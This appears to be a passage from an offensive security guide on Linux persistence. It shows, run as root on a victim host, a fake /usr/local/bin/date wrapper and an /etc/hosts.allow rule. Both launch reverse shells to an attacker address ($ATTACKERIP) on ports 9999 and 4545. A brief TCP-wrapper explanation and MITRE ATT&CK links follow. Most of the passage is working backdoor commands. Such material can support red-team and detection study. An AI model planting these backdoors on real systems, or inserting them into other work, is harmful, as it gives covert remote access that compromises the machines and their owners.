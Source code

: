 	root@victim$ touch /usr/local/bin/date
	root@victim$ cat << EOF > /usr/local/bin/date
	#!/bin/bash
	# Creating binary wrapper
	bash -i >& /dev/tcp/$ATTACKERIP/9999 0>&1 & 2>/dev/null
	/bin/date $@
	EOF
	root@victim$ chmod +x /usr/local/bin/date

## Creating TCP wrapper

Basic traffic filtering of incoming network traffic is provided by TCP wrappers. Other systems can be granted or refused access to "wrapped" network services running on a Linux server.

TCP wrappers rely on two configuration files as the basis for access control:

-   ***/etc/hosts.allow***
-   ***/etc/hosts.deny***

These files are used to determine whether or not a client may connect to a network service on a remote host.

	$ Command:

	root@victim$ echo -e "Creating TCP wrapper\nALL: ALL: spawn (bash -c '/bin/bash -i >& /dev/tcp/$ATTACKERIP/4545 0>&1') & :allow" >> /etc/hosts.allow

If someone connect to any port on target machine such as SSH, reverse shell will be spawned to adversary server.


## Reference
- https://manpages.debian.org/testing/ifupdown/interfaces.5.en.html
- https://www.thegeekdiary.com/understanding-tcp-wrappers-in-linux/
- https://attack.mitre.org/techniques/T1574/008/
- https://attack.mitre.org/techniques/T1505/003/
- https://attack.mitre.org/techniques/T1543/002/
